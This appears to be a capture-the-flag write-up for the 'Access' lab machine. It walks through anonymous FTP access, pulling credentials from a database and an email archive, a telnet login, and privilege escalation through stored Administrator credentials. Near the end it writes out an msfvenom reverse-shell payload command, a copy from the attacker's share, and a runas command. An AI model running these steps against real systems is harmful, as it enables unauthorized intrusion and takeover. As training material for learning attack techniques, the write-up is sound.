 # Access

<figure><img src="../../.gitbook/assets/image (36).png" alt=""><figcaption></figcaption></figure>

Running the full port scan, I found that ports 21, 23 and 80 were open.&#x20;

### (21) FTP

FTP is configured to allow anonymous login and I found `backup.mdb`&#x20;

To obtain the .mdb file, I changed the FTP transfer mode to binary using the command `bin` and downloaded the file using `get backup.mdb`

<figure><img src="../../.gitbook/assets/image (37).png" alt=""><figcaption></figcaption></figure>

I was able to view the tables using `mdb-tables backup.mdb`

The `auth_user` table caught my attention.

Using `mdb-export backup.mdb auth_user`, I found the following credentials.&#x20;

<figure><img src="../../.gitbook/assets/image (67).png" alt=""><figcaption></figcaption></figure>

Furthermore, I found `Access Control.zip` in the FTP server.&#x20;

Trying to unzip the file, I obtained `unsupported compression method 99`. Searching online for solution, I decided to use `7z` to unzip the folder.

Using the command `7z x Access\ Control.zip`, I found that it requires a password to unzip.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Trying the password obtained from `auth_user` table (access4u@security), I managed to successfully unzip the folder.

<figure><img src="../../.gitbook/assets/image (93).png" alt=""><figcaption></figcaption></figure>

A file named `Access Control.pst` was being extracted. To view the contents of a `.pst` file, I used the command `readpst 'Access Control.pst`

Opening the email up, I found the credentials: `security:4Cc3ssC0ntr0ller`

<figure><img src="../../.gitbook/assets/image (82).png" alt=""><figcaption></figcaption></figure>

### (23) Telnet

I managed to login using the credentials `security:4Cc3ssC0ntr0ller`

Found the user flag

<figure><img src="../../.gitbook/assets/image (95).png" alt=""><figcaption></figcaption></figure>

### Privilege Escalation

To show the currently stored credentials, use the command `cmdkey /list`

I obtained the following:

```
Target: Domain:interactive=ACCESS\\Administrator
                                                Type: Domain Password
User: ACCESS\\Administrator
```

It means that the Administrator credentials were stored in the target which allows the attackers to run commands impersonating the Administrator.

I generated a reverse shell payload using `msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=4444 -f exe -o reverse.exe`&#x20;

Transferred from kali to victim (`copy \10.10.14.6\share\reverse.exe reverse.exe`)

Run the reverse.exe as administrator using `runas /savecred /user:ACCESS\Administrator reverse.exe`

And I obtained a shell as the administrator.

<figure><img src="../../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>

